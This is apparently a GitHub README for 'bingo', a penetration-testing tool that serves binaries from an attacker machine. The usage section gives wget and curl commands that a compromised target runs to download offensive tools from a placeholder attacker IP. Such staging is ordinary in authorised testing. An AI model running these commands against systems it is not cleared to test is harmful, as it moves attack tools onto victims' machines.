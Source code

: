 # bingo - Penetration Testing Toolkit

bingo facilitates the distribution and execution of essential tools for penetration testing, allowing the attacker to fetch them on the target machine without internet access on it.

## Installation

1. **Clone the Repository:**
   ```bash
   git clone https://github.com/luskabol/bingo.git
   cd bingo

2. **Install dependencies**
    ```bash
    pip install -r requirements.txt

## Usage

1. **On the attacker machine:**
    ```bash
    python3 bingo.py
    ```

2. **On the target machine:**
    ```bash
    wget http://{your-internal-IP}:8000/get/{binary-name} -O {path-to-output-file}
    ```

    **If the target doesn't have wget:**
    ```bash
    curl http://{your-internal-IP}:8000/get/{binary-name} -o {path-to-output-file}
    ```

- Replace {your-internal-IP} with the actal internal IP of the attacking machine.

- Replace {binary-name} with the name of the binary you want to get, check `bingo.yaml` for available binaries.

- Replace {path-to-output-file} with the location where you want to save the binary.

